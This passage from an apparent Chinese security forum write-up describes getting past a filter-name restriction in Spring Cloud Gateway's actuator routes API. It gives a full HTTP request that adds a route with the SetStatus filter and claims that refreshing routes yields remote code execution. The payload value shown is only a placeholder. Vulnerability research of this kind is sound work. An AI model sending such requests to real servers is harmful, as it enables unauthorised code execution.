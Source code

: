 ```txt
Retry
SetPath
SecureHeaders
SetRequestHeader
SetRequestHostHeader
SetResponseHeader
RewriteResponseHeader
RewriteLocationResponseHeader
SetStatus
SaveSession
StripPrefix
RequestHeaderToRequestUri
RequestSize
RequestHeaderSize
```

#### 2. 新的思路

通过对限制点的思考，只要过滤器名称能绕过限制，理论上所有过滤器都可是行的。

这里随便试一下，更改过滤器`name`参数 为`SetStatus`过滤器。

```http
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 331

{
    "id": "first_route",
    "predicates": [],
    "filters": [{
        "name": "SetStatus",
        "args": 
            {
                "name": "payload",
                "value": "123"
            }
    }],
    "uri": "https://www.uri-destination.org",
    "order": 0
}
```

刷新路由，是能触发 RCE。

![5.1.1.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-39f42b2adf811482af88b074c49a8ffbcfc4c18a.png)
